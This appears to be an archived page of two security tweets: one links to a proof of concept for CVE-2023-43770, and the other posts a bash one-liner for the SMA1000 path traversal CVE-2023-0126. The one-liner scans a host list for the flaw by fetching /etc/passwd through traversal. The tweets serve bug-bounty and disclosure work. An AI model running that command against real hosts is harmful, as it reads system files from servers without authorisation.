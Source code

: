 
# piedpiper1616
**https://twitter.com/piedpiper1616/status/1707274960434328021 _at 2023-09-28, 06:04:04_**
<blockquote>
GitHub - s3cb0y/CVE-2023-43770-POC: A Proof-Of-Concept for the CVE-2023-43770 vulnerability. - https://t.co/0tSLo2vC2G
</blockquote>

* https://github.com/s3cb0y/CVE-2023-43770-POC

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>95</code></td>
</tr></table>

---

# thecybertix
**https://twitter.com/thecybertix/status/1707268135907475495 _at 2023-09-28, 05:36:57_**
<blockquote>
CVE-2023-0126 Pre-authentication path traversal vulnerability in SMA1000

One Liner
cat file.txt| while read host do;do curl -sk "http://$host:8443/images//////////////////../../../../../../../../etc/passwd" | grep -i 'root:' &amp;&amp; echo $host "is VULN";done

#bugbountytips #bug #CVE https://t.co/shFnrXWTX5
</blockquote>

<table><tr>
<td><img src="pictures/aff7f4b3824603f53cf188d4e3ff2bac8de1ac4e66eaebba62607aa581e873ad.jpg" alt="aff7f4b3824603f53cf188d4e3ff2bac8de1ac4e66eaebba62607aa581e873ad.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>126</code></td>
</tr></table>

---
